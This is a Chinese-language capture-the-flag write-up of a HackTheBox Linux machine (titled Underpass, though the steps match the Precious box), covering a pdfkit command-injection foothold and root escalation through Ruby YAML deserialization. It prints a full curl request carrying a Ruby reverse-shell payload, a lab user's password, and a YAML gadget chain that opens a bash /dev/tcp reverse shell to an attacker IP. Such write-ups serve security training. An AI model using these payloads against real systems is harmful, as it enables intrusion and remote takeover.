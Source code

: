 ```yaml
---
title: HackTheBox-Underpass
date: 2024-5-21 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




# 信息收集

## nmap

![image-20250521212332823](./Percious/image-20250521212332823.png)

## web

这是一个将web页面内容转换为pdf的网站

![image-20250521212422769](./Percious/image-20250521212422769.png)

可以从请求头中得知架构以及使用的语言

```
nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Ruby
```

![image-20250521212527123](./Percious/image-20250521212527123.png)

使用exiftool工具查看转换后的pdf文件，可以看到创建者，搜索一下可以知道这是一个ruby语言创建pdf的工具

![image-20250521212625434](./Percious/image-20250521212625434.png)

并且该工具存在远程代码执行的漏洞[PurpleWaveIO/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell：pdfkit <0.8.6 命令注入 shell。](./https://github.com/PurpleWaveIO/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell)

![image-20250521212855066](./Percious/image-20250521212855066.png)

通过该漏洞就可以得到ruby用户的shell，payload：

```
curl 'http://precious.htb' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://precious.htb' -H 'Connection: keep-alive' -H 'Referer: http://precious.htb/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F10.10.16.4%3A8000%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.16.4%22%2C4444%29%29%27%60' --output http
```

![image-20250521215242936](./Percious/image-20250521215242936.png)

在用户主目录下有一个不是常规文件夹，搜索得知bundle是一个rubu库，用来生成pdf文件的

![image-20250521220353114](./Percious/image-20250521220353114.png)

其中有配置目录，目录下有henry用户的账号密码

![image-20250521220329896](./Percious/image-20250521220329896.png)

```
henry:Q3c1AqGHtoI0aXAYFH
```

## 提权

该用户可以以sudo权限运行`/opt/update_dependencies.rb`文件

该文件加载了一个yml文件，这个文件是可控的

```
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

[Python](./https://pynative.com/python-yaml/#h-loading-a-yaml-document-safely-using-safe_load) 和 [Ruby](./https://apidock.com/ruby/Psych/safe_load/class) 都有一个用于加载 YAML 的 `safe_load` 函数。这是因为两者都在原始加载和反序列化 YAML 负载方面存在问题，从而导致代码执行。

[这个 gist](./https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml) 有一个非常简洁的有效负载示例，可用于在 Ruby 中利用 YAML 反序列化。它基于这篇[更长、更详细的文章 ](./https://www.elttam.com.au/blog/ruby-deserialization/)。

将内容改为可以shellcode

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'sh -i >& /dev/tcp/10.10.16.4/4443 0>&1'"
         method_id: :resolve
```

攻击机监听4443端口，就可以得到root的shell

![image-20250521224354951](./Percious/image-20250521224354951.png)